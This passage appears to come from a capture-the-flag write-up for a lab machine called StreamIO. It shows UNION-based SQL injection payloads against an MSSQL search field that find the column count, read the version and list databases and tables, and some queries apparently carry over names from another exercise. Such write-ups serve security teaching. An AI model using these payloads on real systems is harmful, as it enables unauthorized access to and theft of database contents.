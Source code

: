 There is a search function. It is probably fetching the result from a database. Let’s see if this is vulnerable to SQL injections.

Let’s first determine the number of columns this allows:

```bash
cn' UNION select 1-- -

#NO result
#We keep appending numbers until we get an output

cn' UNION select 1,2,3,4,5,6-- -
```

![image.png]({{ site.baseurl }}/assets/streamio/image%2018.png)

Now we know there are 6 columns, 2 and 3 shows, so we have to dump the db values there. Let’s enumerate the database now. First, enumerate the version:

```bash
cn' UNION select 1,@@version,3,4,5,6-- -
```

![image.png]({{ site.baseurl }}/assets/streamio/image%2019.png)

It’s MSSQL 2019.

Let’s see what databases are available:

```bash
cn' UNION SELECT 1,name,3,4,5,6 FROM sys.databases-- - 

```

![image.png]({{ site.baseurl }}/assets/streamio/image%2020.png)

The streamio_backup db looks interesting, let’s enumerate the tables:

```bash
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_CATALOG = 'ilfreight';

cn' UNION SELECT 1,TABLE_NAME,3,4,5,6 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_CATALOG = 'streamio_backup'-- - 

SELECT name FROM ilfreight.sys.tables;

cn' UNION SELECT 1,name,3,4,5,6 FROM streamio_backup.sys.tables-- - 

```

Nothing. weird. Let’s try another db:

```bash
cn' UNION SELECT 1,name,3,4,5,6 FROM STREAMIO.sys.tables-- - 
```

![image.png]({{ site.baseurl }}/assets/streamio/image%2021.png)
